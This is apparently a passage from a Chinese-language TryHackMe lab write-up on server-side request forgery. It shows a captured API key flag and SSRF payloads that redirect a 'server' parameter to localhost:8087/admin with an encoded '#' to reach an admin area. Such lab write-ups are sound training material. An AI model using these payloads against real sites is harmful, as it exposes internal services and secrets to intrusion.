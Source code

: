 ![image-20240110001801768](C:%5CUsers%5CVimalano2ise%5CAppData%5CRoaming%5CTypora%5Ctypora-user-images%5Cimage-20240110001801768.png)

然后我们就能在攻击机终端接受到相关的请求消息：

![image-20240110001822974](C:%5CUsers%5CVimalano2ise%5CAppData%5CRoaming%5CTypora%5Ctypora-user-images%5Cimage-20240110001822974.png)

> 我们所捕获的请求中的API Key内容为：THM{Hello\_Im\_just\_an\_API\_key} 。

![image-20240110001958602](C:%5CUsers%5CVimalano2ise%5CAppData%5CRoaming%5CTypora%5Ctypora-user-images%5Cimage-20240110001958602.png)

额外练习：尝试利用SSRF漏洞来访问目标站点的admin区域。

从本小节的第一个问题中，我们已经知道唯一允许访问admin区域的主机是localhost，所以我们尝试针对性地修改网站外部链接中的server值：

```
server=http://localhost:8087/admin#&id=75482342

server=http://localhost:8087/admin%23&id=75482342

http://10.10.206.41:8087/download?server=http://localhost:8087/admin%23&id=75482342
```

经过测试，我们发现需要对链接中的#符号进行URL编码处理。

![image-20240110004215714](C:%5CUsers%5CVimalano2ise%5CAppData%5CRoaming%5CTypora%5Ctypora-user-images%5Cimage-20240110004215714.png)

最终我们将要访问的链接为：http://10.10.206.41:8087/download?server=http://localhost:8087/admin%23\&id=75482342

![image-20240110003133156](C:%5CUsers%5CVimalano2ise%5CAppData%5CRoaming%5CTypora%5Ctypora-user-images%5Cimage-20240110003133156.png)

如上图所示，我们成功地得到了相关的flag值`thm{c4n_i_haz_flagz_plz?}`。
